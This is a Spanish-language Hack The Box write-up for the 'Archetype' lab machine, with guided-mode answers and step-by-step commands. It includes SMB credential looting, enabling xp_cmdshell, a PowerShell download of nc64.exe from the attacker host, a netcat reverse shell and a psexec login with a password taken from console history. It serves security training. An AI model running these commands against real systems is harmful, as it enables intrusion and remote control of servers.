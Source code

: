 ```yaml
---
title: Writeup archetype - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - archetype
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina archetype en Hack The Box.
keywords:
  - writeup archetype
  - hack the box archetype
  - resolución máquina archetype
  - archetype hack the box
  - htb archetype
---
```

------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/SuperFacil/Tier+2/Windows/Archetype)
- 📺 **Resolución en vivo (completa)**: [Parte1](https://www.youtube.com/watch?v=Xz5oX2bH5VM)|[Parte2](https://www.youtube.com/watch?v=562uiR37VvA)
- 🧠 **Explicación resumida**: [Link](https://www.youtube.com/watch?v=lE4SgO_s_d8)

--------

#veryeasy #windows #nmap #ping #smb #netcat #impacket-mssqlclient

---
# Guided Mode

1)¿Qué puerto TCP aloja un servidor de base de datos?
	1433

2)¿Cuál es el nombre del recurso compartido no administrativo disponible a través de SMB?
	backups

3)¿Cuál es la contraseña identificada en el archivo del recurso compartido SMB?
	M3g4c0rp123

4)¿Qué script de la colección Impacket se puede utilizar para establecer una conexión autenticada a un servidor Microsoft SQL Server?
	mssqlclient.py

5)¿Qué procedimiento almacenado extendido de Microsoft SQL Server se puede utilizar para generar un intérprete de comandos de Windows?
	xp_cmdshell

6)¿Qué script se puede utilizar para buscar posibles rutas para escalar privilegios en hosts Windows?
	Winpeas

7)¿Qué archivo contiene la contraseña del administrador?
	consolehost_history.txt

---
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.217.189
nmap -p- --open -sS -vvv --min-rate 5000 -n -Pn 10.129.217.189 -oG allports
extractPorts allports
nmap -sCV -p135,139,445,1433,5985,47001,49664,49665,49666,49667,49668,49669 10.129.217.189 -oN target
```

![[Archetype1.png]]

![[Archetype2.png]]

![[Archetype3.png]]

![[Archetype4.png]]
![[Archetype5.png]]
*TTL:* Maquina windows
*Puertos relevantes:*
	`445` [[smb]]
*Datos Importantes:*
	Nos podemos conectar con el usuario guest a [[smb]]

-------
# Intrusion por [[smb]] 

```shell
smbclient -L 10.129.217.189 -p 445 -N              / Listamos los directorios
smbclient //10.129.217.189/backups -p 445 -N       / Entramos al directorio backups
```

![[Archetype7.png]]
Descargamos el archivo que esta en el directorio backups con el comando `get prod.dtsConfig` y luego lo abrimos en nuestra maquina
![[Archetype8.png]]
Nos da dos datos relevantes:
Password=M3g4c0rp123
User ID=ARCHETYPE/sql_svc

-----
# Nos conectamos a la base de datos con [[impacket-mssqlclient]]

Vamos a entablar la conexion con el comando `impacket-mssqlclient ARCHETYPE/sql_svc@10.129.217.189 -windows-auth

![[Archetype10.png]]

Vamos a chequear con el comando `SELECT is_srvrolemember('sysadmin');` si somos admin, si nos da de resultado 1 es true

![[Archetype11.png]]


#### Ahora activamos el [[xp_cmdshell]]

[Cheatsheet de comandos mssql](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
Vamos a activar el [[Herramientas-Comandos/Bases de datos/SQL/MSSQL/xp_cmdshell]] por que por defecto viene desactivado

```mssql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

Ahora hacemos la prueba con `xp_cmdshell "whoami"` para ver si da output
![[Archetype12.png]]
Y como podemos ver responde que somos archetype/sql_svc. Asi que ya confirmamos que esta activado el xp_cmdshell


---------
# [[Reverse shell]] para la intrusion
#### Para mandar la [[Reverse shell]] vamos a necesitar de [[Netcat]]

[Link de netcat para 64bits](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------) Vamos a levantar un server de [[python3 -m http.server]] desde nuestra maquina, para que por wget lo descargue la maquina victima. Y a posteriori vamos a ponernos en escucha con  [[rlwrap -cAr nc -lvnp 443]] para la reverseshell

```shell
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.16.16/nc64.exe -outfile nc64.exe"           / Descargamos el archivo
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.16.16 443"                       / Mandamos la reverseshell
```

![[Archetype14.png]]
![[Archetype13.png]]

``rlwrap nc -lvnp 443``  Para estar en escucha

![[Imagenes/Archetype16.png]]
Y una vez dentro, podemos visualizar la primera flag

![[Archetype15.png]]

-------
# Escalada de privilegios con [[Logs de la powershell y de consola]]

#### Vamos a visualizar los logs de la powershell para ver si hay algun dato critico

Los logs estan en esta ruta ``C:\Users\sql_svc\appdata\roaming\microsoft\windows\powershell\psreadline``

Y al visualizar el log, vemos una contraseña
![[Archetype16.png]]
MEGACORP_4dm1n!!
#### Asi que vamos a intentar conectarnos con [[impacket-psexec]] ya que esta el servicio [[smb]]

``impacket-psexec Administrator@10.129.95.187 -port 445``
![[Archetype17.png]]
Una vez dentro ya podemos visualizar la flag
![[Archtype18.png]]

--------
# Creditos
Writeup Oficial HackTheBox